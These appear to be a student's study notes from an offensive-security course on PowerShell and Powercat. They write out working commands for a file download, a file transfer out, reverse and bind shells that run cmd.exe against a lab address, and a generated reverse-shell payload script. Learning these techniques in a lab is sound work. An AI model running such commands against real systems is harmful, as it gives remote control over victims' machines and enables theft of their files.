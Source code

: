 # Netcat

# Socat

# #PowerShell and #Powercat

## PowerShell File Transfers
#Powershell is more complex (and capable) than **netcat** or **socat**.  As a result, it's more complex.  Take the following command, and let's break it down : 
- **powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"**
	- **-c** : execute the supplied command (in double-quotes)
	- **new-object** : cmdlet that allows us to instantiate either a *.Net Framework* or a *COM object*. 
	- **.WebClient** is the class within the **System.Net** namespace
	- **.DownloadFile** a public method that requires 2 comma-separated parameters : 
		1. a *source* location
		2. a *target* location where the retrieved ata will be stored

## PowerShell Reverse Shells
Sending a PS #reverseShell is not as clean as **nc**.  Syntax is as follows : 

![[Pasted image 20221021104817.png]]

This can all be rolled into one lengthy one liner to open up a reverse shell.  best practice here is to copy/paste and changae the **IP** and **port number**
![[Pasted image 20221021110639.png]] 

***Note that the iex (" #Invoke-Expression") cmdlet runs any string it receives as a command and the results of the command are then redirected and sent back via the data stream*** 

## PowerShell Bind Shells
As before, a one-liner can be leveraged using the **-c** switch, and we add a new *listener* variable using the *System.Net.Sockets.TcpListener* class.
![[Pasted image 20221021111320.png]]

## Powercat
Essentially a PowerShell version of netcat.  Can be installed using **apt install #powercat**

*Note* : you can use *Dot-sourcing* to load the script by typing **`..\script [dot] ps1`**

## Powercat File Transfers
**`powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1`**
- **-c** specifies client mode adn sets the listener address.  
- **-p** specifies the port number
- **-i** indicates teh local file that will be transferred remotely

## Powercat Reverse Shells
### Remain similar to what we've already seen
**`powercat -c 10.11.0.4 -p 443 -e cmd.exe`**
- Note the use of the **-e** option here to specify the application to execute

## Powercat Bind Shells
Started wiht a powercat listener
- **`powercat -lp 443 -e cmd.exe**`
	-_Note_ the binding of the command to a listening port
	
## Powercat Stand-Alone Payloads
In the context of powercat, a payload is a set of powershell instructions and the portion of the powercat script that only includes teh features requested by the user by using the **-g** switch
- **`powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1`**
- _Note_ : Stand-alond payloads like this might be easily detected  by IDS

# Wireshark

# tcpdump

